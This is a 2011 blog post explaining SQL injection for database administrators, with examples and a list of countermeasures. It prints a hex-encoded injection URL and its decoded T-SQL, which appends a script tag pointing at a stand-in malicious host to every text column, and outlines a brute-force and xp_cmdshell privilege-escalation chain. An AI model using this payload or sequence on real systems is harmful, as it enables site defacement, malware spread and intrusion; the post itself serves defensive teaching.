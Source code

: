 ```yaml
---
layout: post
date:   2011-01-15
title:  "Protecting against SQL Injection attacks"
permalink: ./blog/index.php/2011/01/protecting-against-sql-injection-attacks/
tags: [T-SQL Programming, Security, SQL Injection, Security, Database Administration, Database Design, T-SQL Programming, Code Samples, Coding Practices, Development, SQL Server]
comments: false
---
```

In a nutshell, an SQL injection attack is one where malicious code is passed to an instance of SQL Server for parsing and execution through a vulnerable application.  Although most SQL injection attacks can come from the web (having a larger "target audience") even machines connected to an organisation's network can pose a potential threat to the entire infrastructure.  Moreover, the applications do not necessarily have to be web-based ones.

An SQL Injection attack performed through a website can be as simple as replacing an application's user input parameters (which an application developer would have failed to validate for values, length, data ranges, etc.) with malicious SQL code.  The resultant actions can vary from simple data manipulation to more complex escalation of privilege - see examples below.

--------------------

#### Example 1 - Unauthorised access ####

A malicious user can modify the input parameters of a form as shown in the below image to gain access to a system.

![Example 1 - Unauthorised access](/assets/article_files/2011/01/sql_injection_unathorised_access.jpg)

--------------------

#### Example 2 - View unauthorised information ####

The below image shows how an authenticated system user can view unauthorised information using SQL injection techniques.

![Example 2 - View unauthorised information](/assets/article_files/2011/01/sql_injection_unathorised_view.jpg)

--------------------

#### Example 3 - Altering data ####

Another SQL injection technique commonly used is the passing of HEX strings to the SQL Server DBMS through vulnerable applications.  Basically, a website URL which accepts an input parameter can be replaced by something similar to the below (abridged) sample:

``` text
.../orderitem.asp?IT=GM-204;DECLARE%20@S%20NVARCHAR(4000);SET%20@S=CAST(0x44004500...006F007200%20AS%20NVARCHAR(4000));EXEC(@S);--
```

Decoding that binary data which is cast to a varchar yields the following (formatted for readability purposes):

``` sql
DECLARE @T varchar(255), @C varchar(255)
DECLARE Table_Cursor FOR
    select a.name, b.name
    from sysobjects a, syscolumns b
    where a.id=b.id and a.xtype='u'
    and(b.xtype=99 or b.xtype=35 or b.xtype=231 or b.xtype=167)
OPEN Table_Cursor
FETCH NEXT FROM Table_Cursor INTO @T, @C
WHILE(@@FETCH_STATUS=0)
BEGIN
    EXEC(<'UPDATE [' + @T + '] SET [' + @C + '] = RTRIM(CONVERT(VARCHAR, [' + @C + '])) + ''&lt;script src="http://somebadsite.cn/badscript.js"&gt;&lt;/script&gt;''')
    FETCH NEXT FROM Table_Cursor INTO @T, @C
END
CLOSE Table_Cursor
DEALLOCATE Table_Cursor
```

The script finds all text columns in the database and updates them with URL's to other web sites.  This is only possible if the login which impersonates the website/application has permissions to modify the data in the database.

Her are some references with updated listings of malicious URLs:

* [ASCII Encoded Binary String Automated SQL Injection](http://www.bloombit.com/Articles/2008/05/ASCII-Encoded-Binary-String-Automated-SQL-Injection.aspx#attack-description)
* [SQL attacks inject government sites in US, UK](http://www.theregister.co.uk/2008/08/07/new_sql_attacks/)
* [Cleanup in isle 3 please. Asprox lying around](http://isc.sans.org/diary.html?storyid=4840)
* [Cyberattacks Now Target Governments](http://www.certmag.com/read.php?in=3812)

--------------------

#### Example 4 - Escalating privileges ####

So far the examples have focused on successful SQL injection attacks localised to the website's database.  A maliciously crafted SQL statement can, if the database, DBMS and service are not configured securely, gain access to the host machine and potentially access other machines on the infrastructure.  The following steps demonstrate one way this is achievable:

1. Scan the network to gain an understanding of the possible vulnerable SQL Server machine.
2. Perform a brute force attack against any SQL Servers identified to test for weak passwords on the 'SA' login.
3. Connect to one of the machines using the "cracked" credentials and, using the SQL Server extended stored procedure "xp_cmdshell", create a Windows account with Administrative privileges on the server.  This is possible if the SQL Server service account is running under one of the privileged built-in accounts or is a member of the Local Administrators.
4. Once administrative access is gained, using other tools, any Cached Credentials can be extracted from the machine.
5. The hacked-into machine can then be used to elevate the privileges to a Domain Administrator.

--------------------

#### Possible solutions and countermeasures ####

Countermeasures include (but are not limited to):

1. Write secure application code.
2. Test all website/application inputs for SQL injection vulnerabilities.
3. Implement the principle of least privilege at all layers of the solution (i.e. client, application, business, database, etc.).
4. Deploy websites/applications using separate accounts for reading and writing/updating data.
5. Use stored procedures to access data.
6. Do not build unchecked dynamic SQL strings.
7. Log user activity.
8. Periodically retest all website/application inputs for SQL injection vulnerabilities.
9. More...

SQL injection attacks can only be prevented by following best practices and employing secure programming techniques.  Ongoing monitoring, detection, and pro-active defensive methods should also be utilised within the various layers of any web application.

Finally, another two fine examples of SQL injection attacks:

![Beat the Speed Cameras](/assets/article_files/2011/01/sql_injection_speed_camera.jpg)

![Bobby Tables](/assets/article_files/2011/01/sql_injection_bobby_tables.jpg)
